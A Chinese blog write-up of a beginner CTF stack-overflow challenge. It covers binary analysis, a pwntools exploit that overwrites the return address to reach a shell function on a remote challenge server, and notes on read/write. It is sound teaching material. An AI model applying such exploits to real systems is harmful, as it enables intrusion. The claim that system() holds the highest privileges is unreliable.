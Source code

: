 <!--yml
category: 未分类
date: 2022-04-26 14:52:13
-->

# CTF|栈溢出入门题level0解题思路及个人总结_一个不融化的雪人的博客-CSDN博客_栈溢出ctf

> 来源：[https://blog.csdn.net/skyattractive/article/details/106463904](https://blog.csdn.net/skyattractive/article/details/106463904)

# CTF|栈溢出入门题level0解题思路及个人总结

## 解题思路

file 查看文件信息：elf、64位、小端序、可执行
![在这里插入图片描述](img/036d5eba907ec744b76b35183757f94e.png)
拿到题目简单运行一下，发现还是一如既往的简单
![在这里插入图片描述](img/a4dd563385d687d1cb8c7ab25834e3ee.png)
拖入64位IDA中反编译
![在这里插入图片描述](img/dea6fb0f2acf37e7bda25bdb49f7cde8.png)
发现vulnerable（指脆弱的、有漏洞的）function 双击打开
![在这里插入图片描述](img/b244b45771e23bf9facc40f11b9210ad.png)
func中定义了char型的buf，大小从rbp到rsp共占80个字节
read()函数读入到标准输入设备两百个字节（远大于buf所占空间大小）存在栈溢出
双击buf看它在栈中的位置
![在这里插入图片描述](img/2139044f7aff55cd7132dc07424f9448.png)![在这里插入图片描述](img/f387ae6e0ac16b77e1a8c209587a8a02.png)
发现在0x0之后，可以将system函数写入r所在的位置从而实现攻击

编写exp

```
from pwn import*
p = remote('124.126.19.106',55849)

callsys_addr = 0x0000000000400596
sys_addr   = 0x0000000000400460
binsh_addr = 0x0000000000400684

payload = 'a'*0x88 + p64(callsys_addr)

p.recvuntil("Hello, World")
p.sendline(payload)

p.interactive() 
```

ls —cat flag后
![在这里插入图片描述](img/720acf16662f4a996e417034989c0a78.png)

## 个人总结

### 有关read（）和write（）

常见的形式是read(0,buf,10)含义是**从标准输入中读取十个字节到buf，即将我们输入的十个字节给buf**
同样地，write（1,buf,8）的含义**是从buf中读取八个字节到标准输出**
0指标准输入设备|1表示标准输出设备

system()函数简单的来说，它**拥有系统的最高权限**，它和**“/bin/sh”**连在一起则可以给我提供一个类似cmd的东西，我们可以用它来进行查看/修改/操作等动作。

博客内容仅是个人学习对知识的理解，如有不对的地方欢迎指正

期待与你的共同进步：）